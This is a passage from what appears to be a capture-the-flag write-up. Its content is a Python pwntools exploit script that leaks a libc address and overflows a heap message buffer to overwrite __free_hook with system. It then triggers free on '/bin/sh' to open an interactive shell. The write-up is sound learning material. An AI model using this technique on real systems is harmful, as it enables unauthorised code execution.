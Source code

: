 ```python
  conn.recvuntil(b'>')
  conn.sendline(given_index.encode())


printf = get_intro()
glibc_base = printf-libc_printf

glibc_free_hook = glibc_base + libc_free_hook-8
glibc_system = glibc_base + libc_system

add_message()
add_message()
add_message()
add_message()
add_message()

send_message("4")
send_message("3")

edit_message("2", b'A'*72 + p64(glibc_free_hook))
add_message()
add_message(p64(glibc_system))
edit_message("0", b"A"*72 + b"/bin/sh\x00")
review_message("1")
send_message("1")

print(conn.recv())
conn.interactive()
```
#### Get the Flag
![[Pasted image 20241119173249.png]]